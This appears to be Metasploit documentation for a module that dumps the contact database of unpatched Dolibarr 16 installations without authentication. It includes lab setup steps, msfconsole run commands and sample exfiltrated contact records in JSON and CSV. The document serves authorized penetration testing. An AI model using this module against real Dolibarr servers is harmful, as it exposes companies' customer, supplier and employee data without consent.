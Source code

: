 ## Vulnerable Application
### Dolibarr 16 pre-auth contact database dump

Dolibarr version 16 < 16.0.5 is vulnerable to a pre-authentication contact database dump.
An unauthenticated attacker may retrieve a company’s entire customer file, prospects, suppliers,
and potentially employee information if a contact file exists.
Both public and private notes are also included in the dump.

### Dolibarr GitHub Repository & Dolibarr setup with vulnerable docker image

If you need to setup Dolibarr, this is the official GitHub Repository from Dolibarr or via docker with an unofficial but working image and docker-compose.
``` 
Official GitHub Repository:

https://github.com/Dolibarr/dolibarr/tree/16.0.4 
```


Unofficial image with docker-compose:

`docker pull tuxgasy/dolibarr:16.0.4`

Important: This image does not contain a database. So you need to link it with a database container.

Use Docker Compose to integrate it with MariaDB (you can also use MySQL if you prefer).

Create docker-compose.yml file as following:
```
version: "3"

services:
    mariadb:
        image: mariadb:latest
        environment:
            MARIADB_DATABASE: dolibarr
            MARIADB_USER: dolibarr 
            MARIADB_PASSWORD: dolibarr
            MARIADB_RANDOM_ROOT_PASSWORD: 'yes'
    web:
        image: tuxgasy/dolibarr:16.0.4
        environment:
            DOLI_DB_HOST: mariadb
            DOLI_DB_USER: dolibarr
            DOLI_DB_PASSWORD: dolibarr
            DOLI_DB_NAME: dolibarr
            DOLI_URL_ROOT: 'http://0.0.0.0'
            PHP_INI_DATE_TIMEZONE: 'Europe/Paris'
        ports:
            - "80:80"
```

Then run all services with `docker-compose up -d`. Now, go to http://0.0.0.0 to access to the new Dolibarr installation.

## Dolibarr Configuration

Default credentials : admin/admin

Important:
Once Dolibarr is installed,
you will have to activate the Third-parties module and create at least one contact in the latter to validate that the module works.

To use this module, you must first enable it using an administrator account, via the menu option "Home - Setup - Modules/Applications".

Choose the tab where the module is listed. Then click on "Activate".

Finally, you can create a member via "Third-parties - New Contact/Address".

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/dolibarr_16_contact_dump`
4. Do: `set RHOSTS [IP] or [Dolibarr domain]`
5. Do: `exploit`
6. You should retrieve a file.

## Options

### TARGETURI

The path to Dolibarr instance.  Defaults to `/`,  `http://dolibarrdomain/`

## Scenarios

### Dolibarr 16.0.4 on Ubuntu 22.10
Exploitation of a Dolibarr 16.0.4.
```
msf6 > use auxiliary/scanner/http/dolibarr_16_contact_dump
msf6 auxiliary(scanner/http/dolibarr_16_contact_dump) > set RHOSTS http://[Dolibarr domain]/
RHOSTS => http://[Dolibarr domain]/
msf6 auxiliary(scanner/http/dolibarr_16_contact_dump) > exploit

[+] Detected vulnerable Dolibarr version: 16.0.4                                         
[+] Database type: mysqli                                                                
[+] Database name: dolibarr                                                              
[+] Database user: dolibarr                                                              
[+] Database host: mariadb                                                               
[+] Database port: 3306                                                                  
[+] Found 1 contacts.                                                                    
[+] 0.0.0.0:80 - File saved in: /home/kali/.msf4/loot/20230424042820_default_0.0.0.0_dolibarr_820189.json                                                                         
[+] 0.0.0.0:80 - File saved in: /home/kali/.msf4/loot/20230424042820_default_0.0.0.0_dolibarr_736790.csv                                                                          
[*] Scanned 1 of 1 hosts (100% complete)                                                 
[*] Auxiliary module execution completed
```
### Dolibarr 16.0.4 on Ubuntu 22.10
Attempted exploitation of a Dolibarr 16.0.4 with an empty database.
```
msf6 > use auxiliary/scanner/http/dolibarr_16_contact_dump 
msf6 auxiliary(scanner/http/dolibarr_16_contact_dump) > set RHOSTS X.X.X.X
RHOSTS => X.X.X.X
msf6 auxiliary(scanner/http/dolibarr_16_contact_dump) > exploit

[+] Detected vulnerable Dolibarr version: 16.0.4
[-] unexpected-reply: Dolibarr data did not include contacts field
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
### Dolibarr 17.0.0 on Ubuntu 22.10
Attempted exploitation of a Dolibarr 17.0.0.
```
msf6 > use auxiliary/scanner/http/dolibarr_16_contact_dump 
msf6 auxiliary(scanner/http/dolibarr_16_contact_dump) > set RHOSTS X.X.X.X
RHOSTS => X.X.X.X
msf6 auxiliary(scanner/http/dolibarr_16_contact_dump) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/dolibarr_16_contact_dump) > exploit

[!] Detected apparently non-vulnerable Dolibarr version: 17.0.0 - proceeding anyway...
[-] unexpected-reply: Exploit response code: 403
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Contact database dump
Here is an example of what your .csv and .json files would look like if the contact exfiltration was successful.

### .json

```
{
  "contacts": [
    {
      "db": {
        "db": {
        },
        "type": "mysqli",
        "forcecharset": "utf8",
        "forcecollate": "utf8_unicode_ci",
        "connected": true,
        "database_selected": true,
        "database_name": "dolibarr",
        "database_user": "dolibarr",
        "database_host": "mariadb",

        ...

        },
        "civility_code": "MR",
        "civility": "Mr.",
        "civilite": null,
        "address": "5100, rue de la Boatie",
        "zip": "69000",
        "town": "Lyon",
        "poste": "DSI",

        ...
```

### .csv

| id | country | country_code | state | state_code | region | region_code | note_public | note_private | note | name | lastname | firstname | civility_id | date_creation | civility_code | civility | civilite | address | zip | town | poste | email |
|-----|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
|  1  | FR | Rhône | 69 |   |   |   |   |   |   |   | Latourelle | Valentine |   | 1680275145 | MME | Mrs. |   | 1600, Place du Jeu de Paume | 69400 | VILLEFRANCHE-SUR-SAÔNE | CEO |  valentine@latourelle.latourelle |
|  2  | FR |   |   |    |   |   |   | don't make any discount I don't like him |   |   |  Bolduc | Hugues |   | 1680275611 | MR | Mr. |   | 1200, rue Bonneterie | 59370 |  MONS-EN-BAROEUL | CEO | hugues@bolduc.bolduc |
|  3  | FR | Rhône  | 69 |   |   |   |   |   |   |   | Gamelin | Felicien |   | 1680275763 | MR | Mr. |   | 5100, rue de la Boatie | 69000 | Lyon | DSI | felicien@gamelin.gamelin |

